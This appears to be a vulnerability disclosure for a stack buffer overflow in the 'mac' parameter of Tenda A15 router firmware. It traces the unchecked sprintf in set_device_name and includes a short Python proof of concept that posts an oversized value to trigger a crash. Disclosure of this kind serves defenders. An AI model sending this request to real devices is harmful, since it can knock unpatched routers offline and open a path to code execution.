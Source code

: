 # Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "mac" parameter at /goform/SetOnlineDevName.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In formSetDeviceName function, get the mac parameter via websGetVar and pass it to the second parameter of set_device_name

![1703731950136](image/SetOnlineDevName.mac.zh-cn/1703731950136.png)

In the set_device_name function, the dev_mac variable is only verified for existence and is used in the sprintf function without any length checks, which could lead to an attacker using this buffer overflow to perform a DOS attack and an RCE attack.

![1703731977335](image/SetOnlineDevName.mac.zh-cn/1703731977335.png)

## POC

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/SetOnlineDevName'
payload = {
    "mac": '9c:fc:e8:da:9c:5b'*0x500,
    "devName": 'devname1'
}
res = requests.post(url=url, data=payload)
print(res.content)
```

## Trigger details

See video content

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html
